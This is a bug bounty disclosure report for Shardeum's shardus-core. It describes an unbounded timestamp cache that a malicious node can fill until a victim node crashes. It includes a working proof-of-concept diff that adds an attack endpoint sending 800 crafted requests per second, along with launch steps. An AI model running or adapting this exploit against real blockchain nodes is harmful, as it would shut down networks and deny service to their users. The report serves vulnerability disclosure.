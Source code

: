 
# Crashing the network by filling timestamp cache of nodes indefinitely

Submitted on Fri Aug 02 2024 19:20:11 GMT-0400 (Atlantic Standard Time) by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33963

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Increasing network processing node resource consumption by at least 30% without brute force actions, compared to the preceding 24 hours
- Network not being able to confirm new transactions (total network shutdown)

## Description


## Description
In shardus/core there is network generated timestamp for transactions. Nodes hold these timestamp in a cache. When node do cache ask, if the cache is hit, it'll get back a timestamp but if a cache is a miss, the node will generate a new timestamp and store it in the cache.
The cache is unlimited sized JSON blob. Attack can abuse this behavior of nodes by asking for timestamp of a non-existent transaction. This will cause the node to generate a new timestamp and store it in the cache. The attacker can keep doing this until the cache can't keep up with maximum system memory available and the node will crash.
There is cache cleaning mechanism where it clear all the entry from old cycles, but it does not check the entry that are associated with future cycles. The attacker will leverage this by adding really large cycle counter to bypass the cache pruning mechanism. This attack only need single malicious node.

## References
- [Timestamp Cache askBinary occurance](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L1081-L1092)
- [Timestamp Cache Endpoint Handler at the receiver node](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L283-L330)
- [Create new entry in the cache if it's not seen](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L315)


        
## Proof of concept
## Proof of Concept
Since we're going to overload the system by filling main memory (RAM), testing the POC in local is not suitable because as victim node hold more memory the local system will be unstable and attacking node can crash itself. So, we need to test this in a realistic WAN environment.

- Have a legit network launch in a WAN environment with multiple nodes, with their own WAN IPs. 
- Apply the patch to the malicious node. shardus/core

```diff
diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..d01a1f60 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+
 
 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,44 @@ class NestedCounters {
   }
 
   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk',(req, res)=>{
+
+            const victim = req.query.victim as string
+         
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+          const cycleCounter = 4294967295 
+
+          setInterval(()=>{
+
+            const promises = []
+
+
+            for( let i = 0; i < 800; i++){
+              promises.push(Context.p2p.askBinary<getTxTimestampReq, getTxTimestampResp>(
+                node,
+                InternalRouteEnum.binary_get_tx_timestamp,
+                {
+                  cycleMarker,
+                  cycleCounter,
+                  txId: crypto.randomBytes(254).toString(),
+                },
+                serializeGetTxTimestampReq,
+                deserializeGetTxTimestampResp,
+                {}
+              ))
+            }
+
+
+            Promise.allSettled(promises).then((results) => {
+            })
+          }, 1000)
+
+          res.send(JSON.stringify(node))
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')
 
```
- Link it to the shardeum
- Run the malicious node, stake it and let it go active 
- Grab the id of the victim node 
- do a get request to malicious node such that `GET http://<malicious-node-ip>:<malicious-node-port>/launch-attk?victim=<victim-node-id>`
- The victim node system memory usage will grow indefinitely and eventually crash.
- Can observe using system manager inspector tool like top, htop, etc.
- Or alternatively you can see it at `GET http://<victim-node-ip>:<victim-node-port>/memory` (this statistic endpoint only available in debug mode)

## Impact
This POC proof not only crashes the a single node but a little code modification can target the whole network. 
